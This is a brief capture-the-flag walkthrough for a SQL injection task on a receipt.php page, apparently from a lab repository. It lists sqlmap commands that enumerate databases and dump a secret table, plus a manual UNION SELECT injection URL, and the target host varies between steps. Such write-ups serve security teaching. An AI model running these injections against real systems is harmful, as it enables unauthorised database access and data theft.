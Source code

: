As confirmation of successful exploitation of the vulnerability, provide a flag (a secret string in the format of 32 letters and numbers) from a secret column of a secret table whose names you do not know in advance.

## How to solve

With sqlmap it's really easier to do it all, though not so clearly.
```bash
sqlmap -u 'http://evil.corp:1337/receipt.php?orderID=1'
``` 
default testing
```bash
sqlmap -u 'http://evil.corp:1337/receipt.php?orderID=1' --dbs
``` 
search for databases, find among other standard Task databases
```bash
sqlmap -u 'http://evil.corp:1337/receipt.php?orderID=1' -D Task --tables
```
look for tables in the Task database, find the super_secret_table table
```bash
sqlmap -u 'http://10.1.201.58:1337/receipt.php?orderID=1' -D Task -T super_secret_table --dump
```
 start table search
##### The results are in
```bash
 ~/.../share/sqlmap/output/evil.corp/logs
```

#### OR
Modify the URL as follows: [http://localhost:1337/receipt.php?orderID=-1%20UNION%20SELECT%201,2,3,4,super_secret_column,6,7,8%20FROM%20super_secret_table%20--%20-](http://localhost:1337/receipt.php?orderID=-1%20UNION%20SELECT%201,2,3,4,super_secret_column,6,7,8%20FROM%20super_secret_table%20--%20-)

![Screenshot](5.6/Screenshot1.png)
